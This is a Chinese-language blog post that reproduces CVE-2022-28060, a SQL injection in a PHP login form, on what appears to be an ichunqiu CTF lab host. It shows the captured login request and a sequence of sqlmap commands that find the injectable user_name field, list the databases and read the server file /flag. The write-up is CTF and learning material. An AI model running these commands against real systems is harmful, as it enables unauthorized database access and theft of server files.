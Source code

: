 ```yaml
---
title: CVE-2022-28060
subtitle:
date: 2025-03-14T12:25:22+08:00
slug: 5287c03
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/fbdef1d41c2d0796f14b0ac7d0745f34.png)

登录界面抓包

![](images/dd38d280c99453e514df2800c0519d66.png)

保存到sqlmap.txt文件

```
POST /includes/login.php HTTP/1.1
Host: eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/
Cookie: PHPSESSID=mffqfi2m3ekldslts7b7kr0avm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_name=admin&user_password=123&login=
```

尝试探测，找到哪个字段存在注入点

```
sqlmap -r sqlmap.txt --batch
```



![](images/c37592f81ddd5d3bd105961850e2ae28.png)

找到注入点为user_name，暴力破解数据库

```
sqlmap -r sqlmap.txt --batch --dbs
```



![](images/5cce3304081278a26f487af6608d0706.png)

在mysql数据库中查找flag

```
sqlmap -r sqlmap.txt --batch -D "mysql" --file-read "/flag"
```



![](images/914419ee8f9c209a35145f1f5c4883e4.png)

读取flag

```
cat /root/.local/share/sqlmap/output/eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/files/_flag
```



![](images/8a567af596126f178d3c4e955f921287.png)

